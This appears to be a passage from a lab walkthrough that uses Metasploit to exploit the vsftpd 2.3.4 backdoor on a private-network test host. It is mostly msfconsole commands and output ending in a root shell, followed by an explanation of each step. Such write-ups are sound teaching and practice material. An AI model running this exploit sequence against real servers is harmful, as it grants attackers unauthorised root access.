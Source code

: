 ```terminal

msf6 >
```
The first command i will do using `Metasploit` is the `search` command to help see any exploit avalaible for my search query:
```terminal
msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                            
         Disclosure Date  Rank       Check  Description

   
   -  ----                                  -------------
   --  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03   
       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0,
 use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
```
And here as you can see i found the exploit `vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)`. Now we are going to use it using the `use` command :
```terminal
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 
use exploit/unix/ftp/vsftpd_234_backdoor
[*] Using configured payload cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 
set rhosts 192.168.11.135
rhosts => 192.168.11.135
msf6 exploit(unix/ftp/vsftpd_234_backdoor) 
> exploit 

[*] 192.168.11.135:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.11.135:21 - USER: 331 Please specify the password.
[+] 192.168.11.135:21 - Backdoor service has been spawned, handling...
[+] 192.168.11.135:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.11.128:33417
 -> 192.168.11.135:6200) at 2023-09-10 11:21:23 -0400
```
Let's dive in our command :
- `use exploit/unix/ftp/vsftpd_234_backdoor` We begin by specifying the exploit we want to use. In this case, we've chosen the "vsftpd_234_backdoor" exploit for vsFTPd 2.3.4.
- `set rhosts 192.168.11.135` We set the target host (rhosts) to the IP address of the FTP server we're testing. This tells the exploit where to attempt the attack.
- `exploit` With everything set up, we initiate the exploit.
- `[*] Command shell session 1 opened (192.168.11.128:33417 -> 192.168.11.135:6200) at 2023-09-10 11:21:23 -0400` Tells us the machine has been successfuly exploited and we have a session opened.
